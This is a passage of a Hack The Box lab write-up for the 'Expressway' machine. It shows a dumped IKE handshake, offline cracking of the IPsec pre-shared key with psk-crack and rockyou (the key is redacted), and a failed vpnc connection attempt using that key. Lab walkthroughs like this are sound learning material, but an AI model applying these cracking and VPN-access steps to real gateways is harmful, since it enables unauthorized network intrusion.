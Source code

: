 ```bash
6a6b92b715fa53157f6c0af028b78a95d2b3b70c9cb16472263097d0a718fa2f64fe3d476bde573e68999a0ab65116cae344fe2a8192cde6a4073cd39a7a8187407a185ec11ad6ca6d44a48d6b9863c049eed1ea556e1bbc9e23f011c31e5289977cca048ddd0c506408d33688727e4caae79ab005a2e7f90d0aa34936b86036:052a443eb9a3df1cfb6098673f9e670c30e0d8d9416659294bc9183138c4ccb89c6c3072a1d67403c3ae267583f4cae20e128a5c2eebb8ce8d5c7d1bcac27b7d75825bacceec13489adb31f45f2fb0b21b9c0adc48d826bc63934b3f2e558f53015de14fc77ec1720c550212afdff569cee760346a30a0957b66dd82536d6266:5bff0629132938ff:8403959cdb085669:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:28f57119a4c15049e148e09bfd65d9288bda6b96:e2ed2b1652ed8c2ce3f1008869a522a658742cb5aa0487cd7b820b700579b0f2:4e68288ad31aa8ae6701597f9230af655c754fb2
Ending ike-scan 1.9.6: 1 hosts scanned in 0.250 seconds (4.00 hosts/sec).  1 returned handshake; 0 returned notify
```
    
This gave me the full handshake with all the needed parameters and the hash I could crack offline.

```bash
┌──(teja㉿x50ubr)-[~/…/HTB/Machines/Active/Expressway]
└─$ psk-crack --dictionary ~/Tools/seclists/rockyou.txt ike_handshake.txt
Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "REDACTED-HERE" matches SHA1 hash 34f61ffb59af73203838482b24048f6f0fdfa251
Ending psk-crack: 8045039 iterations in 10.889 seconds (738796.72 iterations/sec)
```
    
Using psk-crack with rockyou.txt on the dumped handshake, I finally cracked the PSK, which was  (redacted here obviously).
    
Got it . What next ?
With the PSK in hand, I thought: maybe I can connect through VPN now and explore more ports or services on the internal network. I already have a VPN running . maybe disconnect the current OG HTB VPN and create a config file with this new ID PSK and Gateway and then do nmap scan for more ports ?
    
I created a VPN config file (`expressway.conf`) in /etc/vpnc/ for vpnc and tried to connect using it, but vpnc asked me for a username and password. 

```bash
cat > /etc/vpnc/expressway.conf <<EOF
IPSec gateway 10.10.11.87
IPSec ID ike@expressway.htb
IPSec secret YOUR_PSK
EOF

┌──(teja㉿x50ubr)-[~/…/HTB/Machines/Active/Expressway]
└─ vpnc /etc/vpnc/expressway.conf

Enter password for none@10.10.11.87: 
vpnc: response was invalid [1]:  (ISAKMP_N_INVALID_EXCHANGE_TYPE)(7)
```

And this asked me password . So I thought maybe we need to add credentials in conf file
Adding XAuth username in the config didn’t help much because I got an invalid exchange error.

```bash
cat > /etc/vpnc/expressway.conf <<EOF
IPSec gateway 10.10.11.87
IPSec ID ike@expressway.htb
IPSec secret YOUR_PSK
EOF
```
